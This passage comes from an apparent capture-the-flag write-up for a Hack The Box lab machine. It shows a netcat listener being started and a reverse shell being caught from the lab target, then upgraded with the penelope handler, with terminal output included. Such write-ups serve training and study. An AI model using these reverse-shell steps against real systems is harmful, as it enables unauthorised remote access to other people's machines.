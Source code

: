 Now let's add this to the **Debug** section. Also start a listener on our kali machine. <br>
> Be sure to put host is `Kafka` and port is `9092` and also tick the `Keep alive` box.

```bash
└─$ rlwrap -cAr nc -lvnp 1337
listening on [any] 1337 ...
```

![Debug](/assets/img/sorcery-htb-season8/sorcery-htb-season8_debug_3.png)

BOOM! Got the reverse shell.

```bash
└─$ rlwrap -cAr nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.10] from (UNKNOWN) [10.129.2.68] 35394
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
user@7bfb70ee5b9c:/app$
```

So this shell is not really interactive so I use [penelope](https://github.com/brightio/penelope) to make it more handler and interactive.

```bash
└─$ python3 penelope.py 1337   
[+] Listening for reverse shells on 0.0.0.0:1337 →  127.0.0.1 • 172.16.147.138 • 10.10.14.10 • 172.17.0.1 • 172.20.0.1
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from 7bfb70ee5b9c~10.129.2.68-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/7bfb70ee5b9c~10.129.2.68-Linux-x86_64/2025_06_16-10_22_37-877.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
bash: /root/.bashrc: Permission denied
user@7bfb70ee5b9c:/app$
```
